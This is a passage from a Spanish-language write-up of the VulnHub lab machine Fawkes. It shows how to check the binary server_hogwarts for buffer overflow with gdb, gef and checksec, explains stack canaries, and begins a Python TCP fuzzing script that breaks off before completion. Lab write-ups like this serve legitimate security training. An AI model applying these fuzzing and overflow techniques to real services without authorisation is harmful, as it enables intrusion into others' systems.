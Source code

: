 <br>

<h3 id="Confirmacion">Tercer Paso: Confirmando Buffer Overflow con gdb</h3>

En mi caso, seguí esta guía para instalar la herramienta **gdb**:
<a href="https://www.gdbtutorial.com/tutorial/how-install-gdb" target="_blank">Guide to use GDB and learn debugging techniques: How to Install GDB?</a>

Y le instale la siguiente expansión para mejorar la herramienta **gdb**:
<a href="https://github.com/hugsy/gef" target="_blank">Repositorio de hugsy: gef</a>

Una vez que los tengas instalados, vamos a ejecutar **gdb** junto al binario:
```bash
gdb -q ./server_hogwarts
```

Hay muchos comandos que podemos usar dentro de **gdb** y aún más con la expansión que añadimos.

Por ejemplo, podemos analizar la seguridad del binario con `checksec`:
```bash
gef➤  checksec
[+] checksec for '/home/berserkwings/Desktop/VulnHub/Fawkes/content/server_hogwarts'
Canary                        : ✓ (value: 0xf4fcd700)
NX                            : ✘ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```
Esto es otro indicativo de que el binario es bastante vulnerable a **Buffer Overflow**, ya que no tiene la suficiente seguridad.

Investiguemos que es **Canary**.

| **stack canary** |
|:-----------:|
| *Un stack canary es un valor especial que se coloca en la pila (stack) para detectar sobrescrituras. Esto significa que, si intentas sobrescribir datos en la pila, como el EIP, primero tendrías que evitar alterar su valor. Si el canario cambia, el programa detectará el ataque y terminará.* |

<br>

Ahora, vayamos al siguiente paso.

<br>

<h3 id="fuzzingBinario">Cuarto Paso: Aplicando Fuzzing al Binario</h3>

Esta parte es esencial para identificar los límites del binario o aplicación, introduciendo varias cantidades de caracteres hasta que falle.

Esto ya lo hicimos, pero aquí te dejo un script de **Python** que puedes usar para introducir la cantidad de caracteres que quieras (este script puede servir para otros casos de **Buffer Overflow**, aunque depende de cada caso).

El script lo llamé **spiker.py**:
```python
#!/usr/bin/python3
import socket
import argparse


def parse_arguments():
        parser = argparse.ArgumentParser(description="Script para fuzzear monkeycom")
        parser.add_argument("--ip_addr", required=True, help="Dirección IP a utilizar")
        parser.add_argument("--port", type=int, required=True, help="Puerto a utilizar")
        parser.add_argument("--length", type=int, required=True, help="Cantidad de A's a enviar")
        return parser.parse_args()


def exploit(ip, port, length):
        try:
                # Creando conexión vía TCP/IP
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```